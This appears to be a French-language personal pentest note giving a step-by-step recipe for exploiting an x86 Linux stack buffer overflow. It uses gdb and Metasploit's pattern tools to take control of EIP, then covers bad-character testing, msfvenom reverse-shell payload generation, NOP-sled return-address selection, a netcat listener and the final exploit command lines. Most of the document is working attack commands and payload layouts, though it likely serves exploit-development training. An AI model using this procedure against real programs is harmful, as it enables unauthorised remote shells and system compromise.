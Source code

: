 

> [!warning]
> Tester l'exploit sur un environnement monté identique a celui de la victime pour s'assurer qu'il ne cause pas de crash système

# x86


[[#1. Prendre le contrôle de l'EIP (Pointer d'instruction)]]
[[#2. Déterminer la longueur pour le Shell code]]
[[#3. Identifier les mauvais caractères]]
[[#4. Générer le Shell code]]
[[#5. Identifier l'adresse de retour]]


# 1. Prendre le contrôle de l'EIP (Pointer d'instruction)

Prendre contrôle de l'EIP (Pointer d'instruction) pour faire le jump sur la bonne adresse ou se trouve le shellcode afin de l'exécuter.

## Segmentation Fault

Essayer d'overwrite l'EIP avec un nombre de caractères envoyés.

```shell-session
gdb -q <prog>
```

```assembly
set disassembly-flavor intel
```

```
(gdb) run $(python -c "print '\x55' * 1200")
```

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

Vérifier que l'adresse de l'EIP a été overwrite (0x55555555...)

```shell-session
(gdb) info registers 
```

## Determiner l'Offset

Déterminer le nombre d'octets nécessaires pour overwrite le buffer.

1. Creér un pattern

```shell-session
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt
```

2. Lancer gdb sur le programme

```shell-session
gdb -q <prog>
```

3. Utiliser le pattern genéré

```shell-session
(gdb) run $(python -c "print '<pattern>'") 
```


4. Identifier l'adresse de l'EIP

```shell-session
(gdb) info registers eip
```

5. Calculer le nombre exact de caractères nécessaires pour jump sur l'EIP

```shell-session
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_adresse>
```

6. Envoyer le nombre de caractères identifiés pour overwrite l'EIP et rajouter quelques caractères afin de confirmer.

```shell-session
run $(python -c "print '\x55' * <nb_caractères> + '\x66' * 4")
```




---
# 2. Déterminer la longueur pour le Shell code


1. Générer un shellcode avec msfvenom (reverse shell), identifier le payload size et reserver au moins le double.

```shell-session
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```


Rajouter des NOPS (no operations) entre le buffer et le shellcode (optionnel)

1. We need a total of X octets to get to the `EIP`.
2. Here, we can use an additional `100 octets` of `NOPs`
3. `150 octets` for our `shellcode` (payload size x2).
4. 4 bytes for the EIP

  Determine the Length for Shellcode

```shell-session
   Buffer = "\x55" * (<nb_caractères> - 100 - 150) = ?
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```

exemple avec 1036 octets pour arriver à l'EIP
![[Pasted image 20250523011000.png]]

# 3. Identifier les mauvais caractères


Identifier les caractères rejetés par l'applications (entre x00 et xff)

1. Genérer la liste de caractère suivante 

```shell-session
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

2. Calculer la longueur de char (logiquement 256 octets)

```shell-session
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

3. Recalculer la taille du buffer

```shell-session
Buffer = "\x55" * (<nb_caractères> - 256) = ?
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

4. Afficher la fonction main

```shell-session
(gdb) disas main
```

5. Mettre un breakpoint sur la première fonction

```shell-session
(gdb) break <funct> 
```

6. Send CHARS

```shell-session
(gdb) run $(python -c 'print "\x55" * (<nb_caractères> - 256) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```


7. Afficher la stack

```
x/2000xb $esp+500
```

8. trouver l'adresse a laquelle se termine nos x55 et ou commence x00, x01, x02...
9. Identifier les caractères manquants ou modifiés un par un.
10. Soustraire le nombre de mauvais caractères pour recalculer le buffer
11. Renvoyer le CHARS sans les mauvais caractères

```shell-session
(gdb) run $(python -c 'print "\x55" * (<nb_caractères> - X) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```


REPETER LE PROCESS JUSQU'A + AUCUN MAUVAIS CARACTERE.


# 4. Générer le Shell code

Régénérer un Shell code en prenant bien en compte:

- `Architecture`
- `Platform`
- `Bad Characters`

1. Générer le shell code
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "\x00\x09..." --out shellcode
```

```shell-session
cat shellcode
```

2. Reformatter en une seule ligne

3. Recalculer le buffer avec le payload size cette fois ci.

```shell-session
Buffer = "\x55" * (<nb_caracteres> - 100 - <payload_size>) = ?
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

4. Envoyer le payload final

```shell-session
run $(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

5. Vérifier que le premier octet du shell code est intègre après les NOPs dans la stack

```shell-session
x/2000xb $esp+550
```


Possible d'afficher la taille de la stack

```
info proc all
```


# 5. Identifier l'adresse de retour

1. Choisir une adresse dans la stack qui correspond a nos NOPs (0x90) et qui ne contient aucun mauvais caractère identifiés précédemment.

2. Modifier l'EIF avec l'adresse choisie (en Little Endian donc à l'envers)

```shell-session
Buffer = "\x55" * (<nb_caracteres> - 100 - <payload_size>) = ?
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

3. Lancer listener netcat

```bash
nc -nvlp 9001
```

4. Exécuter le programme en dehors de gdb avec le payload final

```shell-session
./<prog> $(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

```shell-session
(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"') | ./<prog>
```




